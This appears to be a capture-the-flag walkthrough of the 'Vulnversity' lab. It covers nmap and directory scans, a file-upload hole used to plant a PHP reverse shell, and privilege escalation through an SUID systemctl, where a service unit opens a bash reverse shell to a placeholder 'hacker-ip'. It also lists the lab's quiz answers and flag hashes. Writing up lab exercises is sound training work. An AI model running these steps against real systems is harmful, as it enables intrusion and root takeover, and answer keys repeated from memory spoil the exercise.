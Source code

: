# Vulnversity

## task 2 
 Q. Scan the box; how many ports are open?
 A. 6

 Q. What version of the squid proxy is running on the machine?
 A. 4.10

 Q. How many ports will Nmap scan if the flag -p-400 was used?
 A. 400

 Q. What is the most likely operating system this machine is running?
 A. Ubuntu

 Q. What port is the web server running on?
 A. 3333

 Q. What is the flag for enabling verbose mode using Nmap?
 A. -v


$ nmap -sV 10.201.30.38                

	PORT     STATE SERVICE     VERSION
	21/tcp   open  ftp         vsftpd 3.0.5
	22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
	139/tcp  open  netbios-ssn Samba smbd 4
	445/tcp  open  netbios-ssn Samba smbd 4
	3128/tcp open  squid-http?
	3333/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

found hidden directories:
images                  [Status: 200, Size: 7206, Words: 356, Lines: 48, Duration: 270ms]
css                     [Status: 200, Size: 4090, Words: 208, Lines: 32, Duration: 242ms]
js                      [Status: 200, Size: 4638, Words: 278, Lines: 34, Duration: 249ms]
fonts                   [Status: 200, Size: 1538, Words: 100, Lines: 20, Duration: 272ms]
internal                [Status: 200, Size: 525, Words: 62, Lines: 27, Duration: 280ms]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 320ms]

/internal/ has file uploading vulnerability.

get reverse shell from :
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


all php exetentions: 
.php
.php3
.php4
.php5
.phtml


found the user flag: 
/home/bill/user.txt:
8bd7992fbe8a6ad22a63361004cfcedb


in systemctl suid bit was set.
so what is done is 

SUID bit on /bin/systemctl is very very vulnerable.
-
cat << EOF > /tmp/rootme.service
[Unit]
Description=root me brooo

[Service]
type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/hacker-ip/hacker-port 0>&1'

[Install]
Wantedby=multi-user.target


before linking and starting the service open the port on listening mode on local machine
$ nc -lnvp hacker-port

on remote machine start the service:
$ /bin/systemctl link /tmp/rootme.service
$ /bin/systemctl start rootme.service


wallah connected to server as root!!!!!

got the flag:
cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5

